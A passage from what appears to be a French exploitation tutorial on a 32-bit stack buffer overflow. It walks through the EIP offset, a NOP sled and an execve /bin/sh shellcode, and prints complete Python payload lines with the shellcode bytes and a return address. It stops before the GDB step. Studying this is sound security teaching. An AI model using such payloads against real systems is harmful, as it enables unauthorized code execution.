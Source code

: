 ***Le site qui m'a permis de convertir le shellode en assembleur est [defuse.ca](https://defuse.ca/online-x86-assembler.htm).\
Le shellcode a été trouvé sur [shell-storm.org](http://shell-storm.org/shellcode/).***

Ce code va donc effectuer l'appel système **execve** qui permet d'exécuter un programme (pour nous /bin/sh). En langage C, cela donnerait :

```
execve("/bin//sh", ["/bin//sh"], 0);
```

Les informations nécessaires pour réaliser un syscall (convention 32 bits) peuvent être trouvées ici : https://w3challs.com/syscalls/?arch=x86

### Écriture de l'exploit

- Nous savons que pour écrire le registre EIP, il faut atteindre le **44ème caractère**.
- Nous avons en notre possession **un shellcode de 26 octets**.

Si nous plaçons notre shellcode au début de notre payload (charge qui va être injectée au moment de rentrer le prénom), alors il va falloir rajouter **18 caractères (44 - 26) pour atteindre l'adresse de retour**. Cette dernière va devoir pointer sur notre shellcode présent sur la pile.

Pour éviter d'avoir à mettre exactement l'adresse de notre shellcode, nous allons utiliser une petite astuce. Plutôt que de rajouter 18 caractères inutiles après notre shellcode (obligatoire pour atteindre l'adresse de retour), nous allons les utiliser à bons escients.\
On va rajouter 18 instructions "nop" (ne fait aucune action) avant notre shellcode. Comme ça, il nous suffira simplement de mettre une adresse tombant dans cette suite de "nop" et par la suite notre shellcode sera exécuté.

La valeur hexadécimale d'un nop est "\x90". Ce schéma illustre la forme de notre charge finale :

![overflow exploit](/img/overflow_exploit.jpg)

En Python, cela donnerait :

`
print "\x90"*18 + "\x83\xC4\x32\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "sled_address"
`

Pour calculer l'adresse du sled, il suffit simplement de récupérer l'adresse du haut de la pile au moment du "ret" et d'enlever 44 (0x2c).

![overflow sled address](/img/overflow_sled_address.jpg)

Pour être tranquille, je ne vais pas prendre exactement le début du sled mais un peu après. Ma charge finale donne donc :

`
print "\x90"*18 + "\x83\xC4\x32\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" + "\xf5\xc4\xff\xff"
`

Maintenant nous pouvons supprimer les breakpoints et relancer le programme en injectant notre charge en input. Pour faire cela avec GDB, il suffit de faire :
